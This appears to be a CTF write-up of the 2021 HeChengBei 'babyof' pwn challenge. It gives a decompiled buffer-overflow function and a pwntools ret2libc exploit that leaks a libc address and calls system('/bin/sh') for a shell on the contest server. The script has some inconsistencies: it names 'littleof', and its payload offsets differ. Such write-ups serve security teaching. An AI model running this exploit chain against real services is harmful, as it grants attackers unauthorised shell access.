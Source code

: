 # HeChengBei 2021 babyof

> 2021 “鹤城杯”河南·鹤壁CTF网络安全挑战赛 初赛 pwn
>
> challenge name: babyof
>
> file: babyof, libc-2.27.so
>
> ld227-3ubuntu1.so and .i64 with comments provided  可以不用看了，程序不长
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish



无canary 

1. 第一个payload: 输出libc上的地址，回到baybyof
2. 第二个payload: onegadget





# IDA Analysis

main内基本没做什么，主要逻辑在babyof

```cpp
int babyof()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Do you know how to do buffer overflow?");
  read(0, buf, 256uLL);  // 无canary 第一个payload输出libc上的地址 回到baybyof 第二个payload onegadget
  return puts("I hope you win");
}
```





# Exploit Testing!

```python
from pwn import*
sh = remote("182.116.62.85", 27056)
#sh = process('./littleof')
elf = ELF('./littleof')
libc = ELF('./libc-2.27.so')
#libc = elf.libc
context.log_level='debug'

pop_rdi_ret = 0x0400863
main_addr = 0x0400789
pop_rsi_r15_ret = 0x0400861

payload = 'a'*0x40 + 'b'*8 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main_addr)

sh.recvuntil("?")
sh.sendline(payload)

leak = u64(sh.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = leak - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh\x00').next()

payload = 'c'*(0x50-8) + 'd'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(pop_rsi_r15_ret) + p64(0)*2 + p64(sys_addr)

sh.recvuntil("?")
sh.sendline(payload)

sh.interactive()
```

